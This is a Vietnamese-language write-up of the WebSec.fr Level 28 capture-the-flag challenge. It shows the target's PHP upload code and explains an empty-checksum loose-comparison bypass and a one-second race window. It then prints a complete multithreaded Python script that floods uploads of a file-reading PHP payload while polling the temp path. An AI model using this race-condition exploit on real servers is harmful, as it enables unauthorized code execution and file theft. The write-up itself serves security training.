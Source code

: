 ```yaml
---
title: WebSec.fr Level 28 CTF challenge
categories: [pentesting, Web-Exploitation, CTF]
tags: [CTF, Web]
---
```


# WebSec.fr Level 28 CTF challenge

### Tổng quan:

![image](https://hackmd.io/_uploads/Syc1KLLjxl.png)

```php
<?php
if(isset($_POST['submit'])) {
  if ($_FILES['flag_file']['size'] > 4096) {
    die('Your file is too heavy.');
  }
  $filename = './tmp/' . md5($_SERVER['REMOTE_ADDR']) . '.php';

  $fp = fopen($_FILES['flag_file']['tmp_name'], 'r');
  $flagfilecontent = fread($fp, filesize($_FILES['flag_file']['tmp_name']));
  @fclose($fp);

    file_put_contents($filename, $flagfilecontent);
  if (md5_file($filename) === md5_file('flag.php') && $_POST['checksum'] == crc32($_POST['checksum'])) {
    include($filename);  // it contains the `$flag` variable
    } else {
        $flag = "Nope, $filename is not the right file, sorry.";
        sleep(1);  // Deter bruteforce
    }

  unlink($filename);
}
?>

```

Đoạn mã này là một trang web đơn giản cho phép người dùng tải lên một tệp và nhập một giá trị checksum. Mục tiêu là tải lên một tệp tin sao cho hai điều kiện sau được thỏa mãn:

- `md5_file($filename) === md5_file('flag.php')`

- `POST['checksum'] == crc32($_POST['checksum'])`

Nếu cả hai điều kiện này đều đúng, tệp tin được tải lên sẽ được include, và vì tệp tin đó có thể chứa mã độc, chúng ta có thể thực thi nó để lấy flag.

### Tiến hành khai thác

Ở đây ta sẽ thử sử dụng chức năng với 1 file php với nội dung:

```php
// show_flag.php
<?php
// Read the contents of the "flag.php" file
$flag_content = file_get_contents("/flag.php");

// Display the contents of the file
echo $flag_content;

?>
```

Để xem thử nó có ra flag hay không.

![image](https://hackmd.io/_uploads/Hy2l9LLjeg.png)

Kết quả trả về cho ta chỉ nhận được dòng `Nope, ./tmp/06e2d538fba99ca2b2456260bc9e08f5.php is not the right file, sorry.`
Ở đoạn `/tmp/06e2d538fba99ca2b2456260bc9e08f5.php` liệu ta có thể khai thác gì thêm từ thông tin này không?

Trong code có đoạn:

```php
$filename = './tmp/' . md5($_SERVER['REMOTE_ADDR']) . '.php';
```

Ở đây giá trị `$filename` sau khi upload lên sẽ được đưa vào thư mục tạm là `/tmp` sau đó là đi với public ip của máy mình và rồi là đuôi file php, vậy nên có thể nhận thấy đây là file cố định với ip của mình và cho dù mình upload bất kì file nào lên thì nó sẽ đều đi vào `/tmp/06e2d538fba99ca2b2456260bc9e08f5.php` trước.

Ngoài ra trong source còn có đoạn:

```php
else {
        $flag = "Nope, $filename is not the right file, sorry.";
        sleep(1);  // Deter bruteforce
    }

  unlink($filename);
}
```

Có nghĩa là khi đẩy lên tmp nếu file sau khi check không trùng với md5 và crc32 checksum thì nó sẽ có 1 khoảng thời gian là 1 giây trước khi nó xoá đi file đó và với 1s thì đó là khoảng thời gian khá dài.

Bây giờ có 2 hướng đi đó là bypass được md5 và crc32 check và hướng race condition lợi dụng 1 giây đó. Với hướng đi đầu thì có vẻ bất khả thi vì ta sẽ khó để có thể biết được md5 của flag được giấu là gì cùng với đó là rất khó để tìm được số x sao cho `x == crc32(str(x))` vì : 

```text
- crc32 trả ra giá trị 32-bit (từ 0 đến 2³²−1 ≈ 4.29 tỉ).

- Nếu coi hàm f(x) = crc32(str(x)) như một ánh xạ trên không gian 2³² phần tử, thì xác suất bất kỳ x cụ thể thỏa f(x)=x vào khoảng 1/2³².

- Nghĩa là trung bình bạn cần thử ~2³² lần (khoảng 4.29 tỉ) mới mong tìm được một nghiệm — không khả thi bằng dò ngẫu nhiên trên 1 máy.
```

Vậy nên ta sẽ dùng trick là so sánh crc32 với chuỗi rỗng:

```text
- crc32('') trả về integer 0.

- '' (chuỗi rỗng) khi ép kiểu sang số cũng trở thành 0.

- PHP dùng so sánh lỏng == sẽ ép kiểu nếu cần, vậy '' == crc32('') tức là '' == 0 → true.

- Nhưng '' === crc32('') (so sánh kiểu chặt ===) sẽ false vì kiểu khác (string vs int).

- Vì vậy gửi checksum là chuỗi rỗng (checksum=) sẽ thỏa điều kiện $_POST['checksum'] == crc32($_POST['checksum'])
```

Vậy nên bây giờ ta chỉ có cách là lợi dụng trong khoảng thời gian 1 giây đó thực hiện request `POST` file php lên và thực hiện `GET` luôn giá trị của flag trong đó.

Bây giờ sử dụng script để khai thác:

```python
# followup_attack.py
import threading, requests, time, random

POST_URL = 'https://websec.fr/level28/index.php'
# replace md5ip with your IP-hash (or compute from your remote IP)
TMP_URL = 'https://websec.fr/level28/tmp/06e2d538fba99ca2b2456260bc9e08f5.php'
FILE_PATH = 'show_flag.php'

NUM_UPLOADERS = 6    # start small (increase slowly if server tolerates)
NUM_READERS = 3
SLEEP_UPLOAD = 0.06  # tune small, don't saturate
SLEEP_READ = 0.02

USER_AGENTS = [
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
    "curl/7.79.1",
    "python-requests/2.x"
]

def uploader(i):
    s = requests.Session()
    s.headers.update({'User-Agent': random.choice(USER_AGENTS)})
    data = {'checksum': '', 'submit': 'Upload and check'}  # empty checksum bypass
    while True:
        try:
            # open fresh every request
            with open(FILE_PATH, 'rb') as fh:
                files = {'flag_file': (FILE_PATH, fh, 'application/octet-stream')}
                r = s.post(POST_URL, files=files, data=data, timeout=8)
            # optionally log low-volume feedback
            if r.status_code != 200:
                print(f"[U{i}] status {r.status_code}")
        except Exception as e:
            print(f"[U{i}] upload err: {e}")
        time.sleep(SLEEP_UPLOAD + random.random()*0.02)

def reader(i, stop_event):
    s = requests.Session()
    s.headers.update({'User-Agent': random.choice(USER_AGENTS)})
    while not stop_event.is_set():
        try:
            r = s.get(TMP_URL, timeout=6)
            if r.status_code == 200:
                txt = r.text
                # quick check for flag pattern
                if 'FLAG{' in txt or 'WEBSEC{' in txt:
                    print(f"[R{i}] !!! FLAG FOUND !!!\n{txt}")
                    stop_event.set()
                    return
                # debug: when file is not PHP anymore (indicates something changed)
                if "<?php" not in txt:
                    print(f"[R{i}] changed content (snippet): {repr(txt[:200])}")
            else:
                # minor backoff on non-200 to avoid making things worse
                time.sleep(0.05)
        except Exception as e:
            print(f"[R{i}] read err: {e}")
        time.sleep(SLEEP_READ + random.random()*0.005)

if __name__ == "__main__":
    stop_event = threading.Event()
    threads = []
    for i in range(NUM_UPLOADERS):
        t = threading.Thread(target=uploader, args=(i,), daemon=True)
        t.start()
        threads.append(t)
    for i in range(NUM_READERS):
        t = threading.Thread(target=reader, args=(i, stop_event), daemon=True)
        t.start()
        threads.append(t)

    try:
        while not stop_event.is_set():
            time.sleep(0.5)
    except KeyboardInterrupt:
        print("Stopped by user")

```

File php với mục đích hiển thị nội dung file flag được giấu ở bên trong hệ thống.

```php
// show_flag.php
<?php
// Read the contents of the "flag.php" file
$flag_content = file_get_contents("/flag.php");

// Display the contents of the file
echo $flag_content;

?>
```

![image](https://hackmd.io/_uploads/B1AYWPLsee.png)

Thành công lấy được nội dung flag ở bên trong bằng cách POST và GET nhanh trong vòng 1 giây.